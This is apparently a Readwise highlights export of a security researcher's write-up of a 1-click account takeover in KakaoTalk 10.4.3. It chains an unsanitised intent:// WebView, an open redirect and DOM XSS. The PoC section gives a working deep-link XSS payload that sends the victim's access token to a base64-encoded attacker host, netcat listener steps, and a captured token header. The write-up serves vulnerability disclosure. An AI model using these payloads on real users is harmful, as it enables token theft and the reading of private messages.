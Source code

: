 ```yaml
---
author: "stulle123"
aliases: "1-Click Exploit in South Korea's Biggest Mobile Chat App"
tags: RW_inbox, readwise/articles
url: https://stulle123.github.io/posts/kakaotalk-account-takeover/
date: 2024-09-25
---
```

# 1-Click Exploit in South Korea's Biggest Mobile Chat App

![rw-book-cover](https://readwise-assets.s3.amazonaws.com/static/images/article2.74d541386bbf.png)

## Highlights


A deep link validation issue in KakaoTalk `10.4.3` allows a remote adversary to run arbitrary JavaScript in a WebView that leaks an access token in a HTTP request header. Ultimately, this token can be used to takeover another user’s account and read her/his chat messages by registering an attacker-controlled device.
> [View Highlight](https://read.readwise.io/read/01j8n4mz62qwf3ryhj479s3y1a)

## New highlights added September 26, 2024 at 12:42 AM


Entry Point: CommerceBuyActivity[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#entry-point-commercebuyactivity)
 The `CommerceBuyActivity` WebView is the main entry point and very interesting from an attacker’s point of view:
 • It’s exported and can be started with a deep link (e.g., `adb shell am start kakaotalk://buy`)
 • It has JavaScript enabled (`settings.setJavaScriptEnabled(true);`)
 • It supports the `intent://` [scheme](https://www.mbsd.jp/Whitepaper/IntentScheme.pdf) to send data to other **non-exported** app components via JavaScript. For example, the URI `"intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=https://foo.bar;end"` loads the website `https://foo.bar` in the `MyProfileSettingsActivity` WebView.
 • There’s no sanitization of `intent://` URIs (e.g., the `Component` or `Selector` is **not** set to `null`). So, potentially any app component can be accessed.
> [View Highlight](https://read.readwise.io/read/01j8nkgas0abmddpc62wn93ms3)



URL Redirect to DOM XSS[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#url-redirect-to-dom-xss)
 While digging into `https://buy.kakao.com` we identified the endpoint `https://buy.kakao.com/auth/0/cleanFrontRedirect?returnUrl=` which allowed to redirect to any `kakao.com` domain. This vastly increased our chances to find a XSS flaw as there are many many subdomains under `kakao.com`.
> [View Highlight](https://read.readwise.io/read/01j8nkjzyawkepkdm5sq6fjwh0)



At this point we could run arbitrary JavaScript in the `CommerceBuyActivity` WebView when the user clicked on a deep link such as `kakaotalk://auth/0/cleanFrontRedirect?returnUrl=https://m.shoppinghow.kakao.com/m/product/Y25001977964/q:"><img src=x onerror=alert(1);>`.
> [View Highlight](https://read.readwise.io/read/01j8nkmmkw5wxbb1v05d8s5ysf)



Deep Link to Kakao Mail Account Takeover[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#deep-link-to-kakao-mail-account-takeover)
 As explained in the previous section, we can steal the user’s access token by running arbitrary JS in the `CommerceBuyActivity` WebView. By crafting a malicious deep link, we could send the token to an attacker-controlled server:
 copy
 1
 kakaotalk://buy/auth/0/cleanFrontRedirect?returnUrl=https://m.shoppinghow.kakao.com/m/product/Q24620753380/q:"><img src=x onerror="document.location=atob('aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUv');">
> [View Highlight](https://read.readwise.io/read/01j8nkqsqfameapjdhzs5v699j)



PoC[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#poc)
 The goal of the PoC is to register [KakaoTalk for Windows/MacOS](https://www.kakaocorp.com/page/service/service/KakaoTalk?lang=en) or the open-source client [KiwiTalk](https://github.com/KiwiTalk/KiwiTalk) to a victim’s account to read her/his **non-end-to-end** encrypted chat messages.
 The steps for an attacker are as follows:
 Attacker prepares the malicious deep link[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#attacker-prepares-the-malicious-deep-link)
 First, she/he stores the payload to a file, …
 copy
 1
 2
 3
 <script>
 location.href = decodeURIComponent("kakaotalk%3A%2F%2Fbuy%2Fauth%2F0%2FcleanFrontRedirect%3FreturnUrl%3Dhttps%3A%2F%2Fm.shoppinghow.kakao.com%2Fm%2Fproduct%2FQ24620753380%2Fq%3A%22%3E%3Cimg%20src%3Dx%20onerror%3D%22document.location%3Datob%28%27aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUv%27%29%3B%22%3E");
 </script>
 … starts the HTTP server and …
 copy
 1
 $ python3 -m http.server 8888
 … opens a Netcat listener in another terminal window: `$ nc -l 5555`. Easy ;-)
 Victim clicks the link and leaks an access token to the attacker[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#victim-clicks-the-link-and-leaks-an-access-token-to-the-attacker)
 Next, the attacker sends a URL (e.g., `http://192.168.178.20:8888/foo.html`) and waits until the victim clicks it. The access token should be then leaked in the Netcat listener:
 copy
 1
 2
 3
 4
 5
 6
 7
 8
 9
 10
 11
 12
 13
 GET /foo.html HTTP/1.1
 Host: 192.168.178.20:5555
 Connection: keep-alive
 Upgrade-Insecure-Requests: 1
 User-Agent: Mozilla/5.0 (Linux; Android 10; M2004J19C Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/119.0.6045.66 Mobile Safari/537.36;KAKAOTALK 2610420;KAKAOTALK 10.4.2
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e
 os_name: Android
 kakao-buy-version: 1.0
 os_version: 10.4.2
 X-Requested-With: com.kakao.talk
 Accept-Encoding: gzip, deflate
 Accept-Language: en-US,en;q=0.9
 Attacker uses the access token to reset the victim’s password[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#attacker-uses-the-access-token-to-reset-the-victims-password)
 Next, the attacker can now reset her/his KakaoTalk password (see instructions [above](https://stulle123.github.io/posts/kakaotalk-account-takeover#kakaotalk-password-reset-with-burp)).
 Attacker registers her/his device the victim’s KakaoTalk account
> [View Highlight](https://read.readwise.io/read/01j8nkt0avzd66j4keaz18wn7z)

